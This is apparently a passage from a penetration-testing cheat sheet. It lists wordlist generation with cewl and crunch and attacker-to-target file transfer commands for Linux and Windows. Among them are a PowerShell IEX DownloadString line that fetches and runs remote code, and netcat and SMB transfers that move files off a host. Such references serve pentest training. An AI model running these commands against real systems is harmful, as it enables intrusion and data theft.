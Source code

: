 ```
gcc -m32 -Wall -Wl,--hash-style=both -o gimme.o gimme.c
```

------

## DICTIONARY GENERATION

```
cewl -m <WORDS_SIZE> --with-numbers -w dictiFromWebsite <URL> -d <DEPTH>
```

```
crunch 5 5 -f /usr/share/crunch/charset.lst mixalpha-numeric-all -t Test@ -o passwords.txt
```

------

## FILE TRANSFER

### Linux

```
# PYTHON
python -m SimpleHTTPServer <PORT>
python2.7 -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"

# FTP
sudo python3 -m pyftpdlib  -p 21 -w

# SMB
sudo smbserver.py -smb2support liodeus .

# WGET
wget <URL> -o <OUT_FILE>

# CURL
curl <URL> -o <OUT_FILE>

# NETCAT
nc -lvp 1234 > <OUT_FILE> 
nc <IP> 1234 < <IN_FILE> 

# SCP
scp <SOURCE_FILE> <USER>@<IP>:<DESTINATION_FILE>
```

### Windows

```
# FTP 
echo open <IP> 21 > ftp.txt echo anonymous>> ftp.txt echo password>> ftp.txt echo binary>> ftp.txt echo GET <FILE> >> ftp.txt echo bye>> ftp.txt
ftp -v -n -s:ftp.txt

# SMB
copy \\<IP>\<PATH>\<FILE> # Linux -> Windows
copy <FILE> \\<IP>\<PATH>\ # Windows -> Linux

# Powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('<URL>', '<DESTINATION_FILE>')
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('<URL>')
powershell "wget <URL>"

# Python
python.exe -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"
```